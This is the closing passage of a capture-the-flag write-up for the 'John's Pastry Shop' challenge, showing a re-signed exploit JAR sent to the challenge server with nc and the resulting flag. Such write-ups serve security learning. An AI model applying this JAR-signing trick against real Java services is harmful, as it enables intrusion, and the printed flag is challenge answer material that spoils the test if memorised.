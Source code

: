 We can safely ignore the warning since we aren't going to use the JAR in six
months. Re-encoding the JAR file and sending it over to the service once more...

```shell
$ python encoder.py exploit.jar signedexploit.jar
$ $ nc pastry.polictf.it 80  < signedexploit.jar
Welcome to John's Pastry Shop!
In John's opinion this cake container seems a trusted one from Shamano's Pastry Shop.
And it also contains a valid NewYorkCheeseCake.
This seems a tasty cake!
Here are its ingredients:
* Dystopian
* Narwhals
* Pwns
* Your Shop
flag{PinzimonioIsTheSecretIngredientAndANiceFlag}
Thanks for visiting John's Pastry Shop!
```

And we have our flag :)

Flag: **flag{PinzimonioIsTheSecretIngredientAndANiceFlag}**
